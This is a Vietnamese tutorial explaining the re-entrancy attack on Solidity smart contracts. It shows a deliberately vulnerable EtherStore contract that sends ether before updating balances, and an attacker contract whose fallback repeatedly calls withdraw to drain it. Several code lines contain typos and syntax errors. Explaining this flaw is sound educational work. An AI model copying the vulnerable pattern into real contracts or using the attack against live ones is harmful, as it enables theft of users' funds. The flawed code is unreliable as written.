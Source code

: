 # Giới thiệu - Re-entrancy attack smart contract

Lổ hổng này khai thác quá trình gọi hàm lặp đi lặp lại nhiều lần. Giống như đệ quy, một hàm được gọi đi gọi lại trước khi lời gọi hàm đầu tiên của nó hoàn tất. Từ đấy phá vỡ tính toàn vẹn của dữ liệu, những dữ liệu bên dưới chưa được cập nhật ở lần gọi hàm đầu tiên khi gọi hàm những lần tiếp theo sẽ gây rủi ro bị khai khác.

## Ví dụ
1. Contract lưu trữ tiền - EtherStore.

```solidity
contract EtherStore {
    mapping(address > uint256) private balances;

    function deposit() public {
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint256 _amount) public {
        require(balance[msg.sender] >= _amount);
        msg.sender.call{value:_amount}("");
        balances[msg.sender] -= _amount;
    }

    function getBalances() public view returns (uint256){
        return address(this).balance;
    }

}
```

Contract ở trên có thể bị khai thác lỗ hổng Re-entrancy do lời gọi hàm **_call{value:_amount}("")_**. Khi một withdraw transaction được gọi, khi thực thi đến **msg.sender.call{value:_amount}("")**, sẽ có thể gọi một **_fallback_** function ở contract của kẻ tấn công. Trong fallback function đó, kẻ tấn công có thể gọi lại hàm **_withdraw_** bên contract **EtherStore**, từ đó gây ra một vòng lặp gọi function **_withdraw_** liên tục, mà lần gọi hàm ban đầu vẫn chưa update lại **_balances[msg.sender]_** mặc dù kẻ tấn công đã rút tiền rồi, từ đó khiến balance của **EtherStore** bị bòn rút cho đến khi thành con số 0.

2. Contract của attacker.


```solidity
contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) public {
        etherStore = EtherStore(_addressStoreAddress);
    }

    fallback() external payable {
        if(address(etherStore).balance >= 1 ether){
            etherStore.withdraw(1 ether);
        }
    }

    function attack() external payable {
        require(msg.value >=1);
        etherStore.deposit(value:1 ether);
        etherStore.withdraw(1 ether);
    }

    function getBlaance() public view returns (uint256){
        return address(this).balance;
    }
}

```
Khi attacker gọi function **_attack()_**, khi đến đoạn code **_etherStore.withdraw(1 ether)_**, thì lời gọi hàm **_withdraw()_** bên **EtherStore** xảy ra với tham số là 1 ether. Như giải thích ở mục 1, thì khi đến **msg.sender.call{value:_amount}("")** sẽ gọi hàm **_fallback()_** bên **Attack** contract, rồi tiếp tục gọi hàm **_withdraw_** bên **EtherStore**, cứ lặp đi lặp lại cho đễn khi balance của **EtherStore** về 0.

@phatkhongbug
